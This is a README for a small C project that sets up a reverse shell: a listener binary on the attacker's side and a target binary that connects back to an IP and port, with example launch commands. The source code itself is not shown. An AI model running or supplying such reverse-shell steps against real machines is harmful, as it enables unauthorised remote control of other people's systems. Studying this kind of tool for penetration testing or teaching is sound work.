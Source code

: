 # reverseShell
👨‍💻 Script in C which after compiling can be used by an 
**Attacker** 
to gain a shell of
**Target** 
machine.

## Usage
Firstly, you should compile the above C programs. In my case I used `g++` compiler and gave the output files name as `attacker` and `target` respectively.
### 1. Setup a server and listen for incoming connections.
On your machine setup a server and start listening on a port.

``` 
./attacker 1234
```

### 2. Execute client script and setup a connection to the server
You can do this by simply executing the target compiled file

```
./target 192.168.0.2 1234
```

Now you should have gained a shell on the server machine.

## Demo
![Alt Text](https://github.com/Yashvendra/reverseShell/blob/master/Demo/video-gif.gif)

## License
MIT © y_k_007

## Author
If you liked the project then kindly support it by giving it a star ⭐!

